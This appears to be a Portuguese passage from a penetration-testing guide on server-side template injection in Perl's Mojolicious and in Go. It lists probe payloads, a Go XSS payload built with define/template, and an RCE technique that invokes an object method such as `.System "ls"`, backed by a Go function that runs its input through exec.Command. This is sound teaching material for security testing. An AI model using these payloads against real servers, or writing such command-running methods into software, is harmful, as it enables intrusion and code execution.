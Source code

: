 ### Mojolicious (Perl)

Mesmo sendo Perl, utiliza tags como ERB em Ruby.

* `<%= 7*7 %> = 49`
* `<%= foobar %> = Erro`
```
<%= perl code %>
<% perl code %>
```
### SSTI em GO

Para confirmar que o motor de template usado no backend é Go, você pode usar estes payloads:

* `{{ . }}` = estrutura de dados sendo passada como entrada para o template
* Se os dados passados forem um objeto que contém o atributo Password, por exemplo, o payload anterior revelaria isso, mas você também poderia fazer: `{{ .Password }}`
* `{{printf "%s" "ssti" }}` = deve exibir a string ssti na resposta
* `{{html "ssti"}}`, `{{js "ssti"}}` = Estes são alguns outros payloads que devem exibir a string "ssti" sem as palavras finais "js" ou "html". Você pode consultar mais palavras-chave no motor [aqui](https://golang.org/pkg/text/template).

**Exploração de XSS**

Se o servidor estiver **usando o pacote text/template**, XSS é muito fácil de alcançar **simplesmente** fornecendo seu **payload** como entrada. No entanto, isso **não acontece com html/template** pois codifica a resposta em HTML: `{{"<script>alert(1)</script>"}}` --> `&lt;script&gt;alert(1)&lt;/script&gt;`

No entanto, Go permite **DEFINIR** um **template** inteiro e **depois chamá-lo**. O payload seria algo como:\
`{{define "T1"}}<script>alert(1)</script>{{end}} {{template "T1"}}`

**Exploração de RCE**

A documentação para o módulo html/template pode ser encontrada [aqui](https://golang.org/pkg/html/template/), e a documentação para o módulo text/template pode ser encontrada [aqui](https://golang.org/pkg/text/template/), e sim, elas variam, e muito. Por exemplo, em **text/template**, você pode **chamar diretamente qualquer função pública com o valor “call”**, o que não é possível com html/template.

Se você quer encontrar um RCE em Go via SSTI, deve saber que, assim como você pode acessar o objeto fornecido ao template com `{{ . }}`, você também pode **chamar os métodos do objeto**. Então, imagine que o **objeto passado tem um método chamado System** que executa o comando fornecido, você poderia abusar disso com: `{{ .System "ls" }}`\
Portanto, você provavelmente **precisará do código-fonte**. Um código-fonte potencial para algo assim seria:
```go
func (p Person) Secret (test string) string {
out, _ := exec.Command(test).CombinedOutput()
return string(out)
}
```
**Mais informações**
